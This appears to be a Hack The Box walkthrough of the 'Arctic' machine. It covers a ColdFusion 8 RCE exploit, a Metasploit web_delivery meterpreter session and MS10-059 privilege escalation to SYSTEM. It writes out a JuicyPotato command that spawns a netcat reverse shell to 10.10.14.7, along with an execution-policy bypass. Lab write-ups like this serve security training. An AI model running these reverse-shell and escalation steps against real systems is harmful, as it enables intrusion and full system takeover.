 #hackthebox 

# Initial Nmap Scan

![Pasted image 20230226110151](https://user-images.githubusercontent.com/71300144/221433773-e26c450b-caeb-4565-812a-b4cdf05c9629.png)

Right away the port 8500 sticks out to me

## All port scan

Nothing came up different

![Pasted image 20230226111747](https://user-images.githubusercontent.com/71300144/221433803-d3c415df-0727-4123-a0c6-bd9937439305.png)

# Checking out Port 8500
![Pasted image 20230226110422](https://user-images.githubusercontent.com/71300144/221433825-5702e1c9-c923-46f9-9043-3051a8358ca3.png)

![Pasted image 20230226110716](https://user-images.githubusercontent.com/71300144/221433845-9d9f6436-2f8e-454e-a1f8-badb97a0343f.png)

- After Some googoling I found out some information after trying some manual enumeration and looking up default Credentials

	- After changing the root administrator username, the ColdFusion 8 Administrator login screen will still display the default value admin in the User name field. If single password authentication is enabled, pressing the Login button will simply submit the root administrator password. If separate username and password authentication is enabled for the ColdFusion 8 Administrator, the new username will be able to log in successfully (using the root administrator password), and the default admin username will fail.
	https://helpx.adobe.com/coldfusion/kb/coldfusion-8-change-root-administrator.html

- After noticing that the default password was submitted and available to copy / save, I saved the password and coppied it in my terminal to see what is was

	- The default root password > 'A53DD890D2F4D7CCB5FDAF668FAA662EE0E75848' but this does not matter because everytime you try to login the password will rotate with random numbers and letters. From here I chose to move on and look for any exploits for Adobe ColdFusion 8


# Searchsploit 

![Pasted image 20230226111934](https://user-images.githubusercontent.com/71300144/221433857-c532813d-1997-4eab-aee2-a3aa45e3cbfa.png)


- I chose to try 'Adobe ColdFusion 8 - Remote Command Execution (RCE)'

Having a look through the code I made some slight modifications to the lhost, lport, and rhost

![Pasted image 20230226112420](https://user-images.githubusercontent.com/71300144/221433873-51109f1a-4ccf-4770-9c36-333164479b92.png)

After reading throught the code, and changing the host values, it looks like all you have to do from there is fire it off.
- You dont even have to set up a netcat listener, it does it for you.

![Pasted image 20230226113408](https://user-images.githubusercontent.com/71300144/221433885-d10ddfd9-6418-4e6f-86ad-316dea8f6c38.png)
![Pasted image 20230226113432](https://user-images.githubusercontent.com/71300144/221433909-d385f6ae-052b-40cf-9bd5-b52e65b17a46.png)
![Pasted image 20230226113500](https://user-images.githubusercontent.com/71300144/221433925-9da1a001-c487-4a26-87f6-edb8c4658301.png)

There we go, we have a foothold

# Post Exploitation / Enumeration

![Pasted image 20230226113932](https://user-images.githubusercontent.com/71300144/221433938-fb6345ce-ffb1-4506-bab9-db01b2a91712.png)

SeImpersonatePrivilege was set, time to look at a Juicy Potato exploit (token Impersonation)

``./juicypotato.exe -l 6666 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\tolis\Downloads\nc.exe -e cmd.exe 10.10.14.7 9002" -t *`

- I tried the command above multiple times but could not get it to work in my shell. so I decided to go over to metasploit.

# Metasploit

- Search web_delivery
- Use multi/script/web_delivery
- set lhost, lport, and srvport if you need
- change exploit target from python to powershell
- set payload to applicable based on system info
	- windows/x64/meterpreter/reverse_tcp
- run the exploit
- paste output in the shell you already have
- you should get a meterpreter session

![Pasted image 20230226121856](https://user-images.githubusercontent.com/71300144/221433976-296d907f-628a-4306-9cdf-4f31bee877eb.png)
![Pasted image 20230226121951](https://user-images.githubusercontent.com/71300144/221433990-b134d2d6-3f55-4c95-bd67-5a82a6c2b688.png)

paste the payload and hit enter
![Pasted image 20230226122026](https://user-images.githubusercontent.com/71300144/221434016-df62b789-8f08-435f-a62a-ea3d3bdcb7aa.png)
![Pasted image 20230226122040](https://user-images.githubusercontent.com/71300144/221434025-6d33f9d7-d849-4013-bd0e-3b78e7a3dea5.png)
you should now have a meterpreter session

![Pasted image 20230226122209](https://user-images.githubusercontent.com/71300144/221434041-cedbc062-533d-4089-98b0-bda27cd5b7f5.png)

I then loaded Incognito mode which will allow me to impersonate any tokens that are available to do so
![Pasted image 20230226122740](https://user-images.githubusercontent.com/71300144/221434051-e5d3cce6-6b0c-4f2b-9b31-3fd1bf098a27.png)

![Pasted image 20230226122801](https://user-images.githubusercontent.com/71300144/221434065-293f2e2b-5d1a-499e-b115-6899f20a2578.png)

There are no tokens available to impersonate..... looks like I fell into a rabit hole, time to start enumerating further

# Post Enumeration

Decided to upload PowerUp.ps1 for furhter enumeration

![Pasted image 20230226123503](https://user-images.githubusercontent.com/71300144/221434091-591ec41a-4621-46f1-a3f9-adbab97b9e69.png)

![Pasted image 20230226123611](https://user-images.githubusercontent.com/71300144/221434110-f4ea4b5e-c883-4413-9ec7-9b3baeaf5ee1.png)

Next run PowerUp.ps `powershell -ep bypass .\PowerUp.ps1`

![Pasted image 20230226123653](https://user-images.githubusercontent.com/71300144/221434139-97330e9e-8f1f-4e2f-8951-a5261c1d9789.png)

PowerUp seemed to comeup with nothing intersting, so after about and hour of manual enumeration and fumbling around in google I came across windows-exploit-suggester, downloaded it and ran it against the systeminfo collected from Arctic

![Pasted image 20230226132958](https://user-images.githubusercontent.com/71300144/221434159-f62f5e7a-cc42-44ea-95af-d5cfe3a0ee61.png)

- Again researching some of the exploits suggested MS11-011, MS10-073, etc proved to bring up nothing I personally could take advantage of / out of my range of understanding, until I got to **MS10-59 which provided an ip address and listening port 
- It is also mentioned that this exploit should be run by a user with impersonate privileges!! I found that earlier when attempting a potato attack

![Pasted image 20230226133631](https://user-images.githubusercontent.com/71300144/221434179-7bd7f8e9-9a3e-40a8-9c23-844d967af197.png)

- I downloaded the file from https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe
- uploaded it to via my meterpreter session 

![Pasted image 20230226134317](https://user-images.githubusercontent.com/71300144/221434195-252b34c4-187e-4ae5-82d9-f3c3997881c6.png)

- Set up a net cat listener on port 9003 and ran the exploit and got a shell 'nt Authority/system'

![Pasted image 20230226134423](https://user-images.githubusercontent.com/71300144/221434221-7f5ec125-a8dc-463f-ae14-e478740b07ef.png)

# Box Owned
***

